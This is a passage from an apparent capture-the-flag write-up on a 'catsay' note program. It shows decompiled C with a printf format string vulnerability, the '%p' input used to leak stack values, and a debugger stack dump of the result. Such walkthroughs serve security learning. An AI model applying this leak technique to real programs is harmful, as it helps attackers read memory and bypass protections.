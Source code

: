 ```console
 _________
< DELETED >
 ---------
   \    /\_/\
    \  ( o.o )
        > ^ <
Please choose what you want to do:
1. List built-in note metadata.
2. Print out a built-in note.
3. Make a draft your note.
4. Add note to notebook.
5. Delete note.
9. Quit.
> 9
 ___________
< Byezzz!!! >
 -----------
   \    /\_/\
    \  ( o.o )
        > ^ <

```

Notice how the forth note (`CTF{Fake_flag}`) is marked as deleted due to the command executed right after `read_notes`: `notes[3].is_free = 1;`.

Now we need to identify the `printf` that's responsible for the format string vulnerability. It's buried somewhere within `catsay`, in a function called `print_line`:

```c
int print_line(char *param_1,char *param_2,char *param_3,int param_4)
{
  // ...
  strncpy((char *)&local_48,param_1,4);
  strncat((char *)&local_48,param_2,(long)local_50);
  //...
  strncat((char *)&local_48,local_70,4);
  //...
  printf((char *)&local_48);
  //...
}
```

Time to debug. We place a breakpoint at `print_line`'s `printf` and run. We then enter a draft of `%p.%p.%p.%p.%p.%p.%p.%p` to leak a few values from the stack, and hit the breakpoint. At this point we dump the stack with the debugger:

```
gef>  stack 200
0x00007fffffffce60│+0x0000: 0x00000017f7fb1540   ← $rsp
0x00007fffffffce68│+0x0008: 0x0000555555557008  →  0x5c2000203c003e20 (">"?)
0x00007fffffffce70│+0x0010: 0x00007fffffffcf10  →  "%p.%p.%p.%p.%p.%p.%p.%p"
0x00007fffffffce78│+0x0018: 0x000055555555700b  →  0x202f005c2000203c ("< "?)
0x00007fffffffce80│+0x0020: 0x000000000000000a
0x00007fffffffce88│+0x0028: 0x0000000000000017
0x00007fffffffce90│+0x0030: "< %p.%p.%p.%p.%p.%p.%p.%p >\n"      ← $rdi
0x00007fffffffce98│+0x0038: "%p.%p.%p.%p.%p.%p >\n"
0x00007fffffffcea0│+0x0040: ".%p.%p.%p >\n"
0x00007fffffffcea8│+0x0048: 0x000000000a3e2070 ("p >\n"?)
0x00007fffffffceb0│+0x0050: 0x0000000000000000
0x00007fffffffceb8│+0x0058: 0x0000000000000000
0x00007fffffffcec0│+0x0060: 0x00007fffffff0000  →  0x0000000000000000
0x00007fffffffcec8│+0x0068: 0xc545c1ab5ecb2800
0x00007fffffffced0│+0x0070: 0x00007fffffffd120  →  0x00007fffffffd360  →  0x00007fffffffe7c0  →  0x00005555555560e0  →  <__libc_csu_init+0> endbr64      ← $rbp
0x00007fffffffced8│+0x0078: 0x0000555555555800  →  <catsay+287> jmp 0x5555555558b8 <catsay+471>
```